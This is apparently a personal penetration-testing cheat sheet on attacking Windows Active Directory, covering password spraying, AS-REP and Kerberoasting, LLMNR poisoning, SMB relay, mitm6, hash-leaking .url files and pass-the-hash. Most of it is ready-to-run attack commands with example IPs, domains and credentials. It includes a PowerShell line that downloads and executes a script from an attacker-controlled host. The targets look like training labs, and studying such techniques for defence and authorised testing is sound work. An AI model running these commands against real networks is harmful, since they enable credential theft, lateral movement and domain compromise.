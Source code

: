 <h1> Kerbrute </h1><br>
Only do usernames as to not lockout users <br>
Located in my downloads <br>
./kerbrute_linux_amd64 userenum -d spookysec.local --dc 10.10.103.225 users.txt <br> <br>
For password spray - kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
<br>
<h1> Query Ticket auth with no password </h1><br>
take valid usernames from kerbrute and place into new user file <br>
sudo python3 /home/kali/impacket/examples/GetNPUsers.py -dc-ip 10.10.103.225 spookysec.local/ -usersfile users.txt -format john -outputfile hashes <br>
cat hashes - look for any usernames with hashes here to crack <br>
<br>
To crack this with hashcat, you need to add a 23 to the hash between rep and name - so e.g $krb5asrep$23$asdas - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat<br>
hashcat mode -m 18200 <br>
<h1> Username grabbing </h1> <br>
enum4linux -U DCIP  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]" <br>
crackmapexec smb 172.16.5.5 --users (this is null session <br>
If you have creds - sudo crackmapexec smb 172.16.7.3 -u AB920 -p weasal --users <br>
Can now spray passwords with kerbrute - kerbrute passwordspray -d domain --dc IP validusers.txt Welcome1
<br>

<h1>LLMNR Poisoning</h1><br>
fallback with share that is unknown, device reaches out with broadcast to see if any device knows the share, malicious machine asks for hash to direct user <br>
<br>
Responder is used to capture the hashes (type locate responder to find the path) - python3 responder.py -I eth0 -rdwv <br>
Run tool first thing in morning on a pen test and right after lunch <br>
<br>
Next you'll want to crack the hashes - Hashcat runs better on normal PC and not VM due to using GPU. Copy whole hash, add to text file.
<br>
hashcat -m 5600 file.txt rockyou.txt --force ------  -m 5600 stands for AD hash NetNTLMv2 <br>
<br>
<h1>SMB Relay</h1><br>
Instead of cracking hashes from responder, can relay hashes to another machine. SMB signing has to be disabled on the target and relayed creds must be admin on machine.<br>
<b> to work have to go to responder.conf and turn off SMB and HTTP</b> <br>
Run Responder.py and also now configure ntlmrelayx.py (locate ntlmrelay) python3 ntlmrelayx.py -tf targets.txt -smb2support (add -i for interactive shell)<br>
<br>
Can gain shell access with pw - run psexec (metasploit module) - need domain, user and pass, may need to try the module several times <br>
Could also use - sudo python3 smbexec.py domain/username:'password'@IP <br>
Or psexec.py domain/username:password@IP <br>
<br>
<h1>Pass Back Attack </h1> <br>
This is an LDAP attack (anything that uses LDAP to connect to AD such as printers) <br>
on LDAP server address within the settings configuration if you change the IP address of the LDAP server to your machine and setup a listerner (responder or netcat) the password will be sent over in cleartext
<br>
<br>
<h1> Force Hashes </h1> <br>
If you already have a user account and can write to a share that has alot of popularity, you can create a file that uses a fake icon file linking back to your IP running responder <br>
name the file "@something.url" and include contents <br>
[InternetShortcut]
URL=https://securify.nl
IconIndex=0
IconFile=\\<responder ip>\leak\leak.ico<br>
  run responder and anyone who visits share will send hash<br>

<h1> MITM6 </h1> <br>
github.com/got-it/mitm6 <br>
mitm6 -I eth0 -d domain.local <br>
Now setup relay attack with ntlmrelayx - ntlmrelayx.py -6 -t ldaps://domainip -wh fakewpad.domain.local -l lootme <br>

<h1>Further strats </h1><br>
Look for web portals that may have default creds, anything on there that shows AD creds? <br>
Check GPO's or hardcoded creds within XML files etc <br>
Look on printers <br>

<h1> Post exploitation <h1><br>
  <h2> Domain Enumeration with Powershell </h2> <br>
  . .\PowerView.ps1 (enter) <br>
  Get-NetDomain (enter)<br>
  Get-DomainPolicy<br>
  Get-NetUser (sometimes passwords are placed in Description) -- Get-NetUser | select description<br>
  
  <h1> Pass the password </h1><br>
  crackmapexec smb IP/CIDR -u user -d domain -p password <br>
  This will loop through the IPs specified to see what devices the user can authenticate against. <br>
  <br>
  Then use smbclient to look into shares <br>
  smbclient -L 172.16.7.50 -U AB920 -W inlanefreight.local <br>
  sudo smbmap -H 172.16.7.3 -u AB920 -p weasal -r 'Department Shares' <br>
  
  <h1> Pass the Hash </h1><br>
  Crackmapexec IP -u username -H hash --local-auth <br>
  <br>
  <h1> Find valid Domain Admins with lower account </h1> <br>
  python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
  
 <br>
  <h1> Secrets Dump </h1> <br>
  Any machine that allows login via SMB perform a secrets dump on the machine to dump out the local hashes should the account be a administrator <br>
  secretsdump.py domain/username:password@ip
  <br>
  
  <h1> Kerboeroasting </h1><br>
  Goal here is to get a TGS (Service Ticket) to decrypt servers account hash<br>
  python3 /home/kali/impacket/examples/GetUsersSPN.py domain/username:password -dc-ip IP -request <br> (doesnt always need password <br>
  Hashcat -m 13100 textfile.txt wordlist.txt <br>
  <br>
  <h2> Kerbroasting from windows </h2><br>
 
  Run Powerview (download fromn machine that can access the internet - IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.160:8000/PowerView.ps1') <br>
 Import-Module .\PowerView.ps1 <br>
Get-DomainUser * -spn | select samaccountname <br>
  Now target account - Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

